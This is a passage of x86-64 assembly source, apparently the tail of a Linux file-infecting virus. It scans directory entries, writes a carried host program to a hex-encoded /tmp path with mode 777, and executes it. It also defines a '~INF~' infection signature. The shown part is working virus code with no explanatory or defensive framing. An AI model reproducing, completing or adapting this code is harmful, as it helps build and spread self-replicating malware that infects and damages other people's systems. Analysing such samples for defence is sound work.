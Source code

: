 ```nasm
        add r9w, [rsp + r9 + 200 + DIRENT.d_reclen]
        cmp r9, r10
        jl scan

finscan:
    mov rax, 0x3
    pop rdi
    syscall


virus:

    pop r9
    cmp r9, 0
    jle .exit

    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, msg
    mov rdx, msgl
    syscall

    mov rax, 0x55
    mov rdi, tmpf
    mov rsi, 777o
    syscall

    mov r15, rax

    mov rax, 0x1
    mov rdi, r15
    mov rsi, host
    mov rdx, r9
    syscall

    mov rax, 0x3
    mov rdi, r15
    syscall

    add rsp, 2000

    mov rax, 0x3b
    mov rdi, tmpf
    xor rsi, rsi
    xor rdx, rdx
    syscall

    .exit:
        xor     edi,edi
        mov     eax,60
        syscall

segment readable writeable
cwdd db 0x2e,0x00
tmpf db 0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x35, 0x35, 0x36, 0x35, 0x00
vsign db 0x7e, 0x49, 0x4e, 0x46, 0x7e
vsignl = $-vsign
```